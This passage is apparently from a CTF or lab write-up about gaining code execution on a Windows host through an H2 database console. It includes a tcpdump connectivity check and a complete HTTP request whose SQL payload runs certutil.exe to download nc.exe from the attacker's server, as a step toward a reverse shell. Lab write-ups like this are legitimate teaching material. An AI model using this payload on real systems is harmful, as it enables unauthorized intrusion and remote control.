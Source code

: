Now we need to get a shell via this 

So checking google on how to exploit this leads to this https://www.exploit-db.com/exploits/49384
![image](https://user-images.githubusercontent.com/113513376/213807777-21cdb0e1-4ee6-41fc-9415-deb8c087f0a0.png)

On following the instructions and running the command i got can now execute command on the target
![image](https://user-images.githubusercontent.com/113513376/213807858-ddceec40-bfec-4a63-af56-30deee32d002.png)

Now lets get a reverse shell

But first checking if the server can reach us 
![image](https://user-images.githubusercontent.com/113513376/213809523-d4035d8c-1011-47e0-945c-9600bd6d1150.png)

And back at tcpdump 

```
┌──(mark㉿haxor)-[/usr/share/windows-resources/binaries]
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:32:48.622701 IP 192.168.88.66 > haxor: ICMP echo request, id 1, seq 1, length 40
22:32:48.625180 IP haxor > 192.168.88.66: ICMP echo reply, id 1, seq 1, length 40
22:32:49.633434 IP 192.168.88.66 > haxor: ICMP echo request, id 1, seq 2, length 40
22:32:49.638609 IP haxor > 192.168.88.66: ICMP echo reply, id 1, seq 2, length 40
22:32:50.648747 IP 192.168.88.66 > haxor: ICMP echo request, id 1, seq 3, length 40
22:32:50.648764 IP haxor > 192.168.88.66: ICMP echo reply, id 1, seq 3, length 40
22:32:51.662073 IP 192.168.88.66 > haxor: ICMP echo request, id 1, seq 4, length 40
22:32:51.662096 IP haxor > 192.168.88.66: ICMP echo reply, id 1, seq 4, length 40
```

Now lets try getting a reverse shell

Using things like wget,curl won't work 

I think its cause the current shell isn't powershell.exe

But anyways i used certutil.exe 

I set up a python web server which has nc.exe in its cwd 

And made the request to download the file using certutil.exe

Here's the http request 

```
POST /query.do?jsessionid=9ddd0a411e62d020d9eb60d02fbffeae HTTP/1.1
Host: 192.168.88.66:8082
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 223
Origin: http://192.168.88.66:8082
Connection: close
Referer: http://192.168.88.66:8082/query.jsp?jsessionid=9ddd0a411e62d020d9eb60d02fbffeae
Upgrade-Insecure-Requests: 1

sql=CALL+JNIScriptEngine_eval%28%27new+java.util.Scanner%28java.lang.Runtime.getRuntime%28%29.exec%28%22certutil.exe+-urlcache+-f+http%3a//192.168.49.88/nc.exe+nc.exe"%29.getInputStream%28%29%29.useDelimiter%28%22%5C%5CZ%22%29.next%28%29%27%29%3B
```
